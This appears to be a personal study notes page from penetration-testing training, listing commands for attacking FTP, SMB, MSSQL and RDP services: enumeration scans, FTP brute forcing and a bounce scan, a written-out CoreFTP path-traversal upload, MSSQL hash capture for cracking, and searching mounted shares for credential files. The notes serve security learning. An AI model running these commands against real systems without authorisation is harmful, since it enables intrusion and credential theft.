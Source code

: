 # ATTACKING COMMON SERVICES  

## Attacking FTP

* Port : `21` 
* [FTP footprinting](../HackTheBox/Academy/Footprinting.md)
* Process
    ```bash
    # Process 

    # 1 - Enumeration + footprinting module ftp par
    nmap -sV -sC <IP> -p 21

    # 2 - try anonymous login 
    ftp <IP>

    # 3 - if anonymous is disabled , try bruteforce
    medusa -u <UserName> -P <wordlist> -h <IP> -M ftp 
    # 4 - FTP bounce attack
    nmap -Pn -v -n -p80 -b <Username>:<Password>@<Exposed-Target> <Main-Target-Non-Exposed>
    ```
* latest vulnerabilities
    * CoreFTP Exploitation ( Path transversal vulnerability)
        ```bash
        curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
        # creer whoops et met POC. à l'interieur
        ```

## Attacking SMB

*
* [SMB footprinting](../HackTheBox/Academy/Footprinting.md)
* latest vulnerabilities
    * [SMBGhost (CVE-2020-0796)](https://www.exploit-db.com/exploits/48537)


## Attacking SQL DB
*  [SQL Basics](../HackTheBox/Academy/SQL%20basics.md)
* [ MSSQL footprinting](../HackTheBox/Academy/Footprinting.md)
* latest vulnerabilities
    * MSSQL function xp_dirtree : we can intercept the hash with Wireshark of TCPDump... and localy crack it to gain admin privilege


## Attacking RDP

* latest vulnerabilities : 
    * [CVE-2019-0708](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/) 
        * ` Bluekeep ` is  : User-After-Free vulnerability `risk blue screen prevent client during pentest`
        * [Article](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/)
    

###### SMB
```bash
# connect to share in windows cmd
net use n: \\<IP>\<ShareName> /user:<Username> <Password>
dir \\<IP>\<ShareName>\
# with powershell with credentials
Get-ChildItem \\<IP>\<ShareName>\
$username = '<Username>'
$password = '<Password>'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\<IP>\<ShareName>" -PSProvider "FileSystem"  -Credential $cred

# count number of file powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
# search file powershell
Get-ChildItem -Recurse -Path <DiskPart | N>:\ -Include *<File-Name-Part>* -File

# with windows cmd
dir <Drive-To-search | n>: /a-d /s /b | find /c ":\ "  # ":\" 
# search file windows cmd
dir <Drive-To-search> | n:>\*<File-Name-Part>* /s /b

# search specific word windows cmd
findstr /s /i <Word> <Drive--To-Search | n>:\*.*
# search specific word windows powershell
Get-ChildItem -Recurse -Path <Drive-to-search | N>:\ | Select-String "<Word>" -List


#  mount smb in linux
sudo mkdir /mnt/<ShareName>
sudo apt install cifs-utils
sudo mount -t cifs -o username=<Username>,password=<Password>,domain=. //<IP>/<ShareName> /mnt<ShareName>
# mount with credential file
mount -t cifs //192.168.220.129/<ShareName> /mnt/<ShareName> -o credentials=</path/credentialfile>

#credential file format .(txt)
#username=plaintext
#password=Password123
#domain=.

# search in the share cred files
grep -rn <localSharePath> -ie cred
# search in share a file 
find <localSharePath> -name *<FileNamePart>*
```

###### 

```bash
# install evolution
sudo apt-get install evolution
# if error occur
export WEBKIT_FORCE_SANDBOX=0 && evolution.


```
